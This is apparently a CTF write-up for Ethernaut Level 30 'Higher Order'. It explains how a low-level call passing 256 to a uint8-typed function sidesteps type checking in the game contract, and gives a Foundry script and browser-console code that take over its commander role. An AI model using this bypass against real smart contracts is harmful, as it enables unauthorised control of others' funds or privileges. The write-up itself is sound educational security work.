

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 30 - Higher Order</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 30 - Higher Order](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-30-higher-order)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
  - [In Foundry using `forge`:](#in-foundry-using-forge)
  - [In the browser's console:](#in-the-browsers-console)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals



## The hack

I really love those little challenges! It is so simple and the code so short that you know there will be some trick waiting for you along the road. In this case, however, if you have come so far in the Ethernaut challenges already, this shouldn't be a problem for you.

Let's take a closer look at the contract:

```javascript
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```

This little assembly code stores the variable that starts at the 4th byte of the calldata in the storage slot `treasury_slot`. Why the 4th byte? Because the first 4 bytes are the function selector for the `registerTreasury()` function, and the data, the `uint8` in our case, starts right after.
The `calldataload` function reads the calldata at the specified position and returns it as a 32-byte word.

The `claimLeadership()` function is pretty straightforward, once we have set the `treasury` variable to a number greater than 255, we will be able to claim the leadership.

```javascript
function claimLeadership() public {
    if (treasury > 255) commander = msg.sender;
    else revert("Only members of the Higher Order can become Commander");
}
```

So the goal is to set the `treasury` variable to a number greater than 255. However, you may have notice that the `registerTreasury()` only takes a `uint8` as an argument, which means that we can only set the `treasury` variable to a number between 0 and 255. Hum...

Let's try to play a bit with some simple scripts in forge and see what we can do.

```javascript
higherOrder.registerTreasury(255);
console2.log("Treasury: ", higherOrder.treasury());
// Treasury: 255
```

As expected, this works fine. But that doesn't allow us to claim the leadership. Let's try different values:

```javascript
// Just in case!
higherOrder.registerTreasury(256);
console2.log("Treasury: ", higherOrder.treasury());

// solidity 0.6.12, might be some underflow involved?
higherOrder.registerTreasury(-1);
console2.log("Treasury: ", higherOrder.treasury());
```

Both of these return some errors because the function is expecting a `uint8`. Same if we try to adjust a bit the function definition in the interface:

```javascript
interface IHigherOrder {
    function registerTreasury(uint256) external;
}
```

The `registerTreasury()` keeps type-checking the value we are passing. So what if we try without function definition with a low-level call instead?

```javascript
address(higherOrder).call(abi.encodeWithSignature("registerTreasury(uint8)", 256));
console2.log("Treasury: ", higherOrder.treasury());
// Treasury: 256
```

This works like a charm, effectively bypassing any type-check! We have set the `treasury` variable to 256 and we can claim the leadership.

## Solution

Let's see the complete solution. This level only requires a script, no need to craft any contract.

### In Foundry using `forge`:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Script, console2} from "forge-std/Script.sol";

interface IHigherOrder {
    function commander() external view returns (address);
    function treasury() external view returns (uint256);
    function registerTreasury(uint8) external;
    function claimLeadership() external;
}

contract PoC is Script {
    IHigherOrder private immutable higherOrder =
        IHigherOrder(0x2917260322a451BED3074D521B2069fA9f8175ef); // Replace with your HigherOrder instance

    function run() external {
        uint256 deployer = vm.envUint("PRIVATE_KEY");
        vm.startBroadcast(deployer);

        address(higherOrder).call(
            abi.encodeWithSignature("registerTreasury(uint8)", 256)
        );
        require(higherOrder.treasury() == 256, "Treasury should be 256");
        console2.log("Treasury: ", higherOrder.treasury());

        higherOrder.claimLeadership();
        console2.log("Commander: ", higherOrder.commander());

        vm.stopBroadcast();
    }
}
```

And the command to run the script:

```bash
forge script script/30_HigherOrder.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY
```

### In the browser's console:

This is a (little) bit trickier in JavaScript as we have to prepare the transaction manually. The following would work just fine:

```javascript
const data =
  web3.eth.abi.encodeFunctionSignature("registerTreasury(uint8)") +
  web3.utils.leftPad(web3.utils.toHex(256), 64).substring(2);

await sendTransaction({
  from: player,
  to: instance,
  data: data,
});
```

## Takeaway

- Interfaces provide valuable type-checks when calling functions from other contracts.
- Be careful when using low-level calls!

## Reference

- Low-level calls in-depth: https://ethereum-blockchain-developer.com/2022-04-smart-wallet/07-low-level-calls-in-depth/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
